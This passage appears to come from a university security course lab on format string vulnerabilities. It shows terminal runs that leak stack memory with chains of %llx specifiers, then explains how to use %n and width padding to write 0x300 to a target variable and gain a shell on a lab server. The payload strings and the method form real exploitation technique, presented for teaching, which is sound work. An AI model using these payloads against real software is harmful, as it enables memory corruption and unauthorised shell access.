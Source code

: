 ``` {.code}
$  ./basic_format_string 
AAAAAAAA
%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx
7fffffffdcc07fffffffdcc01f6022897ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25

$ ./basic_format_string 
AAAAAAAA
%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx
x7fffffffdcc07fffffffdcc0116022917ffff7dd18d06c6c25786c6c25786c6c25786c6c25786c6c25786c6c25787fffffffdcc07fffffffdcc01f6022917ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c2540000a

$ ./basic_format_string 
AAAAAAAA
%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx
7fffffffdcc07fffffffdcc01f6022997ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c2540000a4141414141414141
```

In the last run we get the `4141414141414141` representation of
`AAAAAAAA`. That means that, if we replace the final `%lx` with `%n`, we
will write at the address `0x4141414141414141` the number of characters
processed so far:

``` {.code}
$ echo -n '7fffffffdcc07fffffffdcc01f6022997ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c2540000a' | wc -c
162
```

We need that number to be `0x300`. You can fine tune the format string
by using a construct such as `%32llx` to print a number on `32`
characters instead of a maximum of `16` characters. See how much extra
room you need and see if you reach `0x300` bytes.

::: {.noteimportant}
The construct needn\'t use a multiple of `8` for length. You may use the
`%32llx` or `%33llx` or `%42llx`. The numeric argument states the length
of the print output.
:::

After the plan is complete, write down the attack by filling the `TODO`
lines in the `exploit.py` solution skeleton.

::: {.notetip}
When sending your exploit to the remote server, adjust this address
according to the binary running on the remote endpoint. The precompiled
binary can be found in [the CNS public
repository](/courses/cns/resources/repo "cns:resources:repo"){.wikilink1}.
:::

After you write 0x300 chars in v, you should obtain shell
